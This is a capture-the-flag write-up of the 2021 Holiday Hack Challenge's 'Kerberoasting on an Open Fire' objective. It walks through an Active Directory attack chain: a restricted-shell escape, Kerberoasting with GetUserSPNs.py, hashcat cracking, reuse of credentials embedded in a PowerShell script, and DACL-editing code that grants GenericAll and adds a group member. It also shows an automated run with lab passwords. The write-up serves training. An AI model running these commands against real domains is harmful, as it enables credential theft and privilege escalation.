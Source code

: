 <h1 id="objective-8-kerberoasting-on-an-open-fire">Objective 8: Kerberoasting on an Open Fire</h1>
<p><strong>Location: Staging</strong><br>
<strong>Elf: Jingle Ringford</strong><br>
<strong>Hints provided by Eve Snowshoes after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md">HoHo … No</a></strong></p>
<p>The objective to obtain a secret research document.<br>
In order to get an account in the ELFU AD domain, a registration on <a href="https://register.elfu.org">https://register.elfu.org</a> is required.<br>
After that an individual username and password is provided which can be used to logon to <a href="http://grades.elfu.org">grades.elfu.org</a> using SSH on port 2222.</p>
<h3 id="escaping-application">Escaping Application</h3>
<p>After the SSH login an application is automatically started.<br>
It is possible to escape this application by sending an EOF (CTRL-D).</p>
<h3 id="escaping-python-shell">Escaping Python Shell</h3>
<p>After this a Python shell is displayed.<br>
In order to escape this <code>os.system.("bash")</code> has to be submitted in order to get to a normal Unix shell.</p>
<h3 id="reconnaissance">Reconnaissance</h3>
<p>An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares <code>elfu_svc_shr</code> and <code>research_dep</code>.</p>
<h3 id="pulling-data-from-ad">Pulling data from AD</h3>
<p>Next the tool <code>ldapdomaindump</code> can be used in order to get an idea of the user&lt;-&gt;group&lt;-&gt;permission structure:</p>
<pre><code>ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
</code></pre>
<p>This can be done manually or using Bloodhound.<br>
Bloodhound also reveals that the user <code>elfu_svc</code> is Kerberoastable.</p>
<p>The password hash for this Kerberoastable user can be obtained by running</p>
<pre><code>GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
</code></pre>
<h3 id="cracking-the-password">Cracking the Password</h3>
<p>We follow the hints and prepare the password cracking as follows:<br>
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:</p>
<pre><code>./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
</code></pre>
<p>In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:</p>
<pre><code>curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
</code></pre>
<p>Equipped with these tool, we can let Hashcat crack the password:</p>
<pre><code>hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
</code></pre>
<p>Hashcat find the password for <code>elfu_svc</code> to be <code>Snow2021!</code>.</p>
<h3 id="access-to-elfu_svc_shr">Access to elfu_svc_shr</h3>
<p>With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:</p>
<pre><code>smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
</code></pre>
<p>On this share are several Powershell scripts. One of them, <code>GetProcessInfo.ps1</code> holds credentials for the <code>user remote_elf</code>:</p>
<pre><code>$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
</code></pre>
<h3 id="getting-into-group-research-department">Getting into group Research Department</h3>
<p>With the <code>remote_elf</code> credential snippet from the script, we can grant our windows domain user the <code>GenericAll</code> permissions for the group Research Department:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "{userid}"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
</code></pre>
<p>and add then our user to this group:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ptsuxvdegy"
$password = "Scumpfccr#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://&lt;SID=$hexSID&gt;")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

} -Credential $aCred -Authentication Negotiate
</code></pre>
<h3 id="access-to-research_dep-share">Access to research_dep share</h3>
<p>After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:</p>
<pre><code>smbclient '\\10.128.3.30\research_dep'
smb: \&gt; dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available

</code></pre>
<p>The <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf">PDF document</a> lists <strong>Kindness</strong> as first secret ingredient for a wonderful holiday season.</p>
<h3 id="bonus-kerberoboting">Bonus: Kerberoboting</h3>
<p>This whole process was automated in an <code>expect</code> script named <code>kerberoboting</code>, so that you can enjoy a brew whilst your computer does the work.<br>
It just requires you to register at <a href="https://register.elfu.org">https://register.elfu.org</a>, have <code>hashcat</code> installed in the PATH and a working CeWL in the local directory:</p>
<pre><code>joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using &lt;EOF&gt;
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\&gt; Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine
#
\# Have fun and explore more
#

jsfdgdsjjl@grades:~$ 
</code></pre>
<p><strong>Achievement: Kerberoasting on an Open Fire</strong></p>

